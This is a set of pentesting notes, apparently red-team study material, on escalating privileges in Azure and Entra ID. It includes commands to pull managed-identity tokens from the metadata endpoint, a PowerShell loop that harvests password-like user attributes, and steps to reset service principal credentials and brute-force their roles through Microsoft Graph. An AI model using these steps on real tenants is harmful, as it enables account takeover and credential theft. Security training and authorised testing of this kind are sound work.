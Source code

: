 # Privilege Escalation
- First step is determining what we can read
  - Key Vaults
  - VMs
  - Deployment scripts
  - AD user attribute data
  - Runbooks
- https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-privilege-escalation-using-managed-identities/

## Virtual machines
- If you have access to a VM it might actually have more privileges than your user in Azure
- VM can auth to Azure with a Managed Identity by requesting Oauth token from Azure Metadata Service URL at http://169.254.169.254/metadata/identity/oauth2/token
- RDP to VM, request token, and connect to Azure using AZ cli or Az PowerShell

## Ad user attributes
- User attributes and sensitive information

#### Request all attributes and look for password string
- Might also use token, secret, pass etc.
```
$users = Get-MsolUser; foreach($user in $users){$props = @();$user | Get-Member | foreach-object{$props+=$_.Name}; foreach($prop in $props){if($user.$prop -like "*password*"){Write-Output ("[*]" + $user.UserPrincipalName + "[" + $prop + "]" + " : " + $user.$prop)}}} 
```

## Service Principal Hijacking
- There are over 200 default service principals in an O365 tenant
- None of them are listed in the Azure GUI portal
- An “Application Administrator” can change passwords or certificates for service principals… even the default ones
- Some interesting permissions as identified by Dirk-Jan Mollema: https://dirkjanm.io/azure-ad-privilege-escalation-application-admin/
- Application Admin can’t add users to groups but can change the password of a service principal that can add users to groups.

#### List service principals as Application Administrator
```
Get-AzureAdServicePrincipal
```

#### Change password of service prinicpal
```
$spn = Get-AzureADServicePrincipal -SearchString "<SPN DISPLAY NAME>"
New-AzureADServicePrincipalPasswordCredential -objectid $spn.ObjectId -EndDate "12-31-2099 12:00:00" -StartDate "6-8-2018 13:37:00" -Value "<PASSWORD>"
```

- One way to quickly determine what service principals might be useful would be list out all roles for each service
- Not easily done through PowerShell Cmdlets
- Change password for a service principal
- Use cred to auth with Microsoft Graph scope
- Brute force all Object ID’s against Microsoft Graph endpoint that responds with role information
- Web request for auth to Microsoft Graph
```
POST /<tenant ID>/oauth2/v2.0/token HTTP/1.1
Host: login.microsoftonline.com
client_id=<application 
ID>&scope=https%3A%2F%2Fgraph.microsoft.com%2F.default&client_secret=
<service principal password>&grant_type=client_credentials
```
- A bearer token should be returned if auth was successful
- Then use the bearer token with the following request setting the service principal ObjectID against graph.windows.net
```
GET /beta/servicePrincipals/<Service Principal ObjectID> HTTP/1.1

Host: graph.microsoft.com
Authorization: Bearer <JWT Bearer Token Value>
```
- Response contains role information
- Next, something like Burp’s Intruder could be used to brute force each service principal ID against the Microsoft Graph endpoint URL
```
$apps = Get-AzADServicePrincipal
$apps.Id
```
- Now we can choose what level of access we want and change the pass for that service principal

## Break glass accounts
- Another PrivEsc target is Azure “Break Glass” administrative accounts
- Microsoft recommends not setting up MFA for them
- Two accounts are usually recommended to be set up
- If you can determine which ones are the break glass they can be good targets
